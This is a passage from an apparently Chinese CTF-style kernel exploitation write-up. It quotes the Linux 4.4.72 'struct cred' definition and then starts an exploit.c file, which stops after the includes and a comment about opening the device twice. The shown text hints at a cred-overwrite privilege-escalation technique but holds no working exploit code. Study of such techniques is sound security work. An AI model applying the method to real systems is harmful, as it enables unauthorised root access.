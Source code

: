 #### 找到内核版本对应的cred

在内核源码目录中的linux-4.4.72/include/linux/cred.h；

```C
struct cred {
  atomic_t  usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
  atomic_t  subscribers;  /* number of processes subscribed */
  void    *put_addr;
  unsigned  magic;
#define CRED_MAGIC  0x43736564
#define CRED_MAGIC_DEAD  0x44656144
#endif
  kuid_t    uid;    /* real UID of the task */
  kgid_t    gid;    /* real GID of the task */
  kuid_t    suid;    /* saved UID of the task */
  kgid_t    sgid;    /* saved GID of the task */
  kuid_t    euid;    /* effective UID of the task */
  kgid_t    egid;    /* effective GID of the task */
  kuid_t    fsuid;    /* UID for VFS ops */
  kgid_t    fsgid;    /* GID for VFS ops */
  unsigned  securebits;  /* SUID-less security management */
  kernel_cap_t  cap_inheritable; /* caps our children can inherit */
  kernel_cap_t  cap_permitted;  /* caps we're permitted */
  kernel_cap_t  cap_effective;  /* caps we can actually use */
  kernel_cap_t  cap_bset;  /* capability bounding set */
  kernel_cap_t  cap_ambient;  /* Ambient capability set */
#ifdef CONFIG_KEYS
  unsigned char  jit_keyring;  /* default keyring to attach requested
           * keys to */
  struct key __rcu *session_keyring; /* keyring inherited over fork */
  struct key  *process_keyring; /* keyring private to this process */
  struct key  *thread_keyring; /* keyring private to this thread */
  struct key  *request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
  void    *security;  /* subjective LSM security */
#endif
  struct user_struct *user;  /* real user ID subscription */
  struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
  struct group_info *group_info;  /* supplementary groups for euid/fsgid */
  struct rcu_head  rcu;    /* RCU deletion hook */
};
```

写exp

```c
/*************************************************************************
    > File Name: exploit.c
    > Author: K1ose
    > Mail: klose@jk404.cn
    > Created Time: Fri 05 Nov 2021 08:53:41 PM CST
 ************************************************************************/
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

int main()
{
    // 打开两次设备
```